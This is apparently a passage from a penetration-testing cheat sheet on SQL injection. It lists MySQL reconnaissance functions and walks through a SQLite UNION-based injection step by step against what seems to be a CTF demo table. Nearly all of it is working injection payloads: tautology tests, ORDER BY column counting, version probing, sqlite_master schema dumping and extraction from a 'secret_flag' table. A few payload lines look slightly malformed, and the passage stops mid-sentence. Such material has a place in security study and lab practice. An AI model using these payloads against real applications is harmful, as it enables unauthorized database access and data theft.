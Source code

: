 
Other interesting queries:

```
database()
user()
@@version
SLEEP(5)
current_user()
```


### SQLite

```
#########
SQLite
#########

# Ensure that the targeted parameter is vulnerable
1' a' or '1'='1' --

# Determine the number of columns of the query
1' a' or '1'='1' order by 1 -- //returns all results
1' a' or '1'='1' order by 2 -- //returns all results
1' a' or '1'='1' order by 3 -- //returns all results
1' a' or '1'='1' order by 4 -- //returns all results
1' a' or '1'='1' order by 5 -- //returns all results
1' a' or '1'='1' order by 6 -- //returns none
# Therefore the query contains 5 columns.

# Determine which columns are being returned
1' a' or '1'='1' UNION SELECT 1,2,3,4,5 -- 
# The table in this demo returned values 1,3,4,5. Value 2 was not returned.

# Extract version of sqlite database
1' a' or '1'='1' UNION SELECT sqlite_version,NULL,NULL,NULL,NULL -- 

# Determine the name and schema of the tables stored in the database.
a' or '1'='1' union select tbl_name,2,3,4,5 from sqlite_master --

# Determine the SQL command used to construct the tables:
a' or '1'='1' union select sql,2,3,4,5 from sqlite_master --
# In this demo it returned:
1	CREATE TABLE results (rollno text primary key, email text, name text, marks real, rank integer)	4	5
1	CREATE TABLE secret_flag (flag text, value text)	4	5

# Retrieve two columns from a table
a' or '1'='1' union select flag,2,value,4,5 from secret_flag --
```

Also, once we know which column is injectable, there are some php functions that can provide us some worthy knowing data:
